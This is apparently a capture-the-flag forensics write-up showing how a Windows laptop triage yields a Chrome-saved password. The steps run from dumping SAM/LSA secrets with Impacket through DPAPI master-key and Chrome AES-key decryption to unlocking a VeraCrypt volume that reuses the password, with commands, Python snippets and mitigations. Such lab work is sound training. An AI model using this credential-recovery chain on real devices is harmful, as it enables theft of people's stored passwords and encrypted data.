




# Challenge 14: Management Wants a Word

## 1. Challenge Information

| Field | Value |
|---|---|
| **Platform** | TryHackMe |
| **Event** | Hacker Holidays 2026 |
| **Category** | Forensics |
| **Difficulty** | Hard |
| **Vulnerability Type** | DPAPI-Protected Credential Recovery → Password Reuse → Encrypted Volume Compromise (Windows Forensics & Cryptography) |

**Objective:**
Analyze a full forensic triage (KAPE collection) of a guest laptop left behind in Room 214, registered to "Vera," recover a password she never meant to leave behind, use it to unlock hidden material on her machine, and retrieve the flag.

---

## 2. Understanding the Challenge (Recon / Analysis)

### What did I notice?
The Concierge Briefing framed this as a full digital forensics investigation: IT had already pulled a **complete triage of Vera's laptop** before wiping it. The task hinted that a password was "not as locked away as she thought" — and a social-media hint from `@0xMia` reinforced this directly: *"a browser will remember things for you that you never told anyone else... not every hidden file needs a password cracker, some of them just need a really good memory"* — pointing squarely at **browser-saved credentials** as the key, and hinting at a specific tool/version number (`1.26.29`) later relevant to identifying an encryption format.

### What services / artifacts were provided?
The provided task files were a **KAPE** (Kroll Artifact Parser and Extractor) collection — a standard forensic triage output — containing a full snapshot of Vera's Windows user profile and system hives:
```
C/Users/vera/Documents/backup
C/Users/vera/AppData/Local/Google/Chrome For Testing/User Data/...
C/Users/vera/AppData/Roaming/Microsoft/Protect/...
C/Windows/System32/config/SAM
C/Windows/System32/config/SYSTEM
C/Windows/System32/config/SECURITY
```

An early check of a suspicious file caught my attention:
```
file C/Users/vera/Documents/backup
C/Users/vera/Documents/backup: data
```
```
xxd -l 64 C/Users/vera/Documents/backup
00000000: f372 f7cc d607 4b17 a8aa 8865 12af abdf  .r....K....e....
...
```
No recognizable file signature and high-entropy, random-looking bytes — a strong indicator of an **encrypted container**, not a corrupted or generic binary file.

### What tools did I use?
- `file` and `xxd` for initial file-type and entropy inspection.
- `find` to locate browser artifact files (`Login Data`, `Web Data`, `Local State`, `History`) inside the Chrome profile.
- `sqlite3` to query Chrome's internal SQLite databases (`Login Data`, `Web Data`).
- **Impacket** (`impacket-secretsdump`, `impacket-dpapi`, and the `DPAPI_BLOB` class directly in a Python script) to extract Windows secrets and decrypt DPAPI-protected material.
- `jq` and `base64` to parse Chrome's `Local State` JSON and decode its embedded DPAPI blob.
- A custom Python script using `cryptography`'s `AESGCM` to decrypt Chrome's AES-256-GCM-encrypted saved password.
- `cryptsetup` (with `--veracrypt` / TrueCrypt-compatible mode) to mount the recovered encrypted container.



### Why did I move to the next step?
Once the browser artifacts confirmed Chrome had a **saved login** for an interesting-looking internal service (`http://bytelotus.thm:8080/`, username `VeraSecretVault`), decrypting that saved password became the clear priority — since Chrome passwords on Windows are protected by **DPAPI**, which is itself tied to the user's Windows logon credentials, the investigation naturally extended into dumping the local SAM/SECURITY/SYSTEM hives to recover those credentials.

---

## 3. Root Cause

This challenge doesn't center on a single software bug, but on a **chain of weak security practices**, each of which compounded the next:

1. **Windows DPAPI protection anchored to a weak/known local password.** Chrome's saved-password encryption key is itself protected by the Windows user's DPAPI master key, which can be decrypted once the user's Windows logon password (or NTLM hash) is known. In this case, an LSA secret (`DefaultPassword`) leaked a plaintext password (`minivera`) directly from the SAM/SECURITY/SYSTEM registry hives — meaning anyone with offline access to those hives could ultimately decrypt **any** DPAPI-protected secret on the machine, including saved browser passwords.
2. **Sensitive credentials stored in the browser's password manager.** A password protecting what turned out to be an internal, sensitive-sounding service (`VeraSecretVault`) was saved directly in Chrome rather than in a dedicated secrets manager, making it recoverable through standard DPAPI-decryption forensics once the underlying Windows credential was compromised.
3. **Password reuse across trust boundaries.** The password Chrome had saved for `http://bytelotus.thm:8080/` turned out to also be the passphrase protecting a completely separate, far more sensitive artifact — a VeraCrypt-encrypted container (`Documents/backup`) holding "secret financial documents." Reusing one recovered credential to protect multiple, unrelated secrets meant that compromising the weakest link (the DPAPI/browser chain) cascaded into full compromise of the strongest one (the encrypted volume).

---

## 4. How It Was Discovered

### How did I know something was hidden there?
The unidentifiable, high-entropy `backup` file was the first clue that an encrypted container existed somewhere on the system. The `@0xMia` hint about browsers "remembering things" pointed toward Chrome's saved-password store as the path to the passphrase needed to open it, rather than brute-forcing it directly.

### What tests did I run?

**Locate relevant browser artifact files:**
```
find C/Users/vera -type f \
\( -iname 'Login Data' \
-o -iname 'Local State' \
-o -iname 'Web Data' \
-o -iname 'History' \) -print
```
This revealed a Chrome ("Chrome For Testing") profile under `AppData/Local/Google/Chrome For Testing/User Data/Default/`.

**Query the saved-logins database:**
```
sqlite3 "$LOGIN_DATA"
SELECT origin_url, username_value, hex(password_value) AS encrypted_password FROM logins;
```



**Query the autofill database for corroborating context:**
```
sqlite3 "$WEB_DATA"
SELECT name, value, date_created, date_last_used FROM autofill ORDER BY date_last_used DESC;
```

### What indicators appeared?
The `Login Data` query returned exactly one saved credential:
```
origin_url                  username_value    encrypted_password
http://bytelotus.thm:8080/  VeraSecretVault   763130C88A72A64F...
```
The `Web Data` autofill table confirmed the same username (`VeraSecretVault`) had been typed/autofilled on this machine, reinforcing that this was a real, actively-used credential worth decrypting rather than a decoy. The encrypted password blob's `v10`/`v11` prefix format (standard for Chrome's DPAPI + AES-GCM scheme) confirmed exactly which decryption chain would be needed.

---

## 5. Exploitation

### Steps in sequence

**Step 1 - Confirm the encrypted container exists**
```
file C/Users/vera/Documents/backup
xxd -l 64 C/Users/vera/Documents/backup
```
Result: opaque, high-entropy binary data — a likely encrypted volume.

**Step 2 - Recover the saved Chrome credential's encrypted blob**
```
LOGIN_DATA="$(find C/Users/vera -type f -iname 'Login Data' -print -quit)"
sqlite3 "$LOGIN_DATA"
SELECT origin_url, username_value, hex(password_value) AS encrypted_password FROM logins;
```
Recovered `VeraSecretVault`'s encrypted password for `http://bytelotus.thm:8080/`.

**Step 3 - Locate the DPAPI master key protecting Vera's Windows profile**
```
find C/Users/vera/AppData/Roaming/Microsoft/Protect -type f -printf '%f %p\n'
```
This revealed the master key blob under Vera's SID directory:
```
C/Users/vera/AppData/Roaming/Microsoft/Protect/S-1-5-21-2529683458-431225740-1723070931-1000/c90719ef-5b98-474e-b934-136d606a702a
```

**Step 4 - Dump local Windows secrets to recover Vera's password**
```
impacket-secretsdump \
-sam C/Windows/System32/config/SAM \
-system C/Windows/System32/config/SYSTEM \
-security C/Windows/System32/config/SECURITY \
LOCAL
```



Key results:
```
vera:1000:aad3b435b51404eeaad3b435b51404ee:1241186a4aac4f34f4bf7ace71b396a8:::
[*] DefaultPassword
(Unknown User):minivera
```
The `DefaultPassword` LSA secret leaked a plaintext password, **`minivera`**, associated with Vera's account.

**Step 5 - Decrypt Vera's DPAPI master key using the recovered password**
```
impacket-dpapi masterkey \
-file "$MASTERKEY_FILE" \
-sid 'S-1-5-21-2529683458-431225740-1723070931-1000' \
-password 'minivera'
```
Output:
```
Decrypted key: 0x5e5715ec9b6df5a86e97902692a66d28e691f05d5bc1e04d0159cfe960e94c9...
```

**Step 6 - Extract and decrypt Chrome's AES-256 key**
Chrome stores its own AES key, itself DPAPI-encrypted, inside `Local State`:
```
jq -r '.os_crypt.encrypted_key' "$LOCAL_STATE" | base64 -d | tail -c +6 > chrome-key.dpapi
```
(the `tail -c +6` strips Chrome's `DPAPI` magic-string prefix before the raw DPAPI blob).

A short Python script using Impacket's `DPAPI_BLOB` class then decrypted this blob with the recovered master key:
```python
from impacket.dpapi import DPAPI_BLOB

masterkey = bytes.fromhex(sys.argv[1])
with open("chrome-key.dpapi", "rb") as f:
    blob = DPAPI_BLOB(f.read())
decrypted = blob.decrypt(masterkey)
```
Result:
```
Chrome AES key: 206a39a0971327ea9487e4aea9844f5d3670162456982276939a712646da0b02
```

**Step 7 - Decrypt the saved Chrome password**
Using the recovered AES key, a second script parsed Chrome's `v10`/`v11` encrypted-password format (`nonce` + `ciphertext+tag`) and decrypted it with AES-256-GCM:
```python
nonce = blob[3:15]
ciphertext_and_tag = blob[15:]
password = AESGCM(key).decrypt(nonce, ciphertext_and_tag, None).decode()
```
Output:
```
URL:      http://bytelotus.thm:8080/
Username: VeraSecretVault
Password: Wh4t1sV3raD0inG0nTh1sH0st
```

**Step 8 - Use the recovered password to open the encrypted container**
The recovered password turned out to double as the passphrase for the earlier-identified `backup` file, which was in fact a **VeraCrypt** volume:
```
sudo cryptsetup tcryptOpen --veracrypt 'C/Users/vera/Documents/backup' vera_backup
Enter passphrase for C/Users/vera/Documents/backup: Wh4t1sV3raD0inG0nTh1sH0st
```

**Step 9 - Mount and browse the decrypted volume**
```
sudo mkdir -p /mnt/vera
sudo mount -o ro /dev/mapper/vera_backup /mnt/vera
find /mnt/vera -type f
```
Result:
```
/mnt/vera/secret_financial_documents/important_invoice_byte_lotus.pdf
/mnt/vera/secret_financial_documents/transactions_q3.csv
```

**Step 10 - Retrieve the flag**
The flag was found inside the invoice document:
```
/mnt/vera/secret_financial_documents/important_invoice_byte_lotus.pdf
```



### Why each step succeeded
- **`impacket-secretsdump` against offline SAM/SYSTEM/SECURITY hives**: succeeded because these registry hives were fully present in the KAPE triage and contained an LSA secret (`DefaultPassword`) storing Vera's password in a recoverable form.
- **`impacket-dpapi masterkey`**: succeeded because DPAPI master keys are derived from (among other things) the user's Windows logon password — once that password was known, the master key blob could be decrypted entirely offline.
- **Manual Chrome AES-key extraction**: succeeded because Chrome's `Local State` file stores its AES key DPAPI-encrypted (not tied to any additional secret beyond DPAPI itself), so decrypting it was a direct, deterministic consequence of already holding the user's master key.
- **AES-256-GCM decryption of the saved password**: succeeded because Chrome's `v10`/`v11` password format is a well-documented, fixed layout (12-byte nonce + ciphertext + 16-byte tag), so once the AES key was known, decryption was straightforward.
- **`cryptsetup tcryptOpen --veracrypt`**: succeeded because the recovered Chrome password was, in fact, reused as the VeraCrypt container's actual passphrase — collapsing an otherwise strong, independent layer of encryption down to the strength of a single already-compromised browser-saved credential.

---

## 6. Result

- Identified an unidentifiable, high-entropy file (`Documents/backup`) as a likely encrypted container.
- Recovered a saved Chrome credential (`VeraSecretVault`) for an internal service, encrypted via DPAPI + AES-256-GCM.
- Dumped local Windows secrets (SAM/SYSTEM/SECURITY) to recover Vera's Windows password (`minivera`) via an exposed LSA `DefaultPassword` secret.
- Used that password to decrypt Vera's DPAPI master key, then Chrome's AES key, then the saved password itself, recovering the plaintext credential `Wh4t1sV3raD0inG0nTh1sH0st`.
- Discovered that credential was reused as the passphrase for a **VeraCrypt-encrypted volume**, successfully mounted it, and found hidden "secret financial documents."
- Retrieved the flag from within the mounted volume's invoice PDF:
```
THM{*****}
```

This was a pure digital forensics and applied cryptography challenge — no live exploitation of a running service was involved; the entire chain was executed offline against artifacts collected from a physical device.

---

## 7. Mitigation

- Never store credentials for sensitive internal services in a browser's built-in password manager without additional protection (e.g., an OS-level TPM-backed vault, a dedicated password manager with a master password independent of the OS login, or hardware-backed credential storage).
- Avoid password/passphrase reuse across trust boundaries — a browser-saved web credential should never double as the passphrase for an encrypted volume containing highly sensitive data.
- Ensure Windows systems do not store recoverable plaintext passwords as LSA secrets (e.g., via unattended-install answer files, autologon configuration, or scheduled task credentials) — audit and remove any `DefaultPassword`/autologon configuration that isn't strictly necessary.
- Harden local account passwords so that, even if SAM/SYSTEM/SECURITY hives are exfiltrated, hashes are resistant to fast offline recovery (avoid short, memorable/predictable passwords like `minivera`).
- Restrict physical and offline access to devices containing DPAPI-protected secrets; DPAPI protection is only as strong as the user's Windows credential, and both can be recovered entirely offline once the hives are copied.
- Encrypt or securely wipe devices before disposal or reassignment (as this triage scenario itself implies — the laptop was about to be wiped for the next guest, underscoring the value of proper sanitization procedures beforehand).
- Use a unique, independently-managed passphrase for encrypted containers (VeraCrypt or otherwise) rather than anything derivable from browser history, autofill data, or other recoverable artifacts.

---

## 8. Lessons Learned

- Learned the full DPAPI decryption chain end-to-end: SAM/SECURITY/SYSTEM hive dumping → LSA secret recovery → DPAPI master key decryption → Chrome `Local State` AES key extraction → AES-256-GCM decryption of the actual saved password.
- Practiced using **Impacket**'s `secretsdump` and `dpapi` modules together, and directly leveraging its `DPAPI_BLOB` class in custom Python for a step not covered by a ready-made CLI tool.
- Reinforced how a single weak, reused credential can cascade through multiple independent security layers (Windows logon → DPAPI → browser password store → VeraCrypt passphrase) and collapse them all into one point of failure.
- Understood how forensic triage artifacts (KAPE-style collections) provide everything needed to reconstruct a full offline credential-recovery chain without ever touching a live system.
- Learned to treat unexplained, high-entropy files discovered during forensics as strong candidates for encrypted containers, and to actively search related artifacts (browser data, autofill, saved passwords) for the passphrase rather than attempting brute-force cracking first.

---

## 9. References

- [Impacket - Secretsdump & DPAPI Documentation](https://github.com/fortra/impacket)
- [Microsoft DPAPI (Data Protection API) Documentation](https://learn.microsoft.com/en-us/windows/win32/seccrypto/cryptprotectdata)
- [VeraCrypt Documentation](https://www.veracrypt.fr/en/Documentation.html)
- [Chrome/Chromium OS Crypt (Password Storage) Overview](https://chromium.googlesource.com/chromium/src/+/main/docs/security/os-crypt.md)
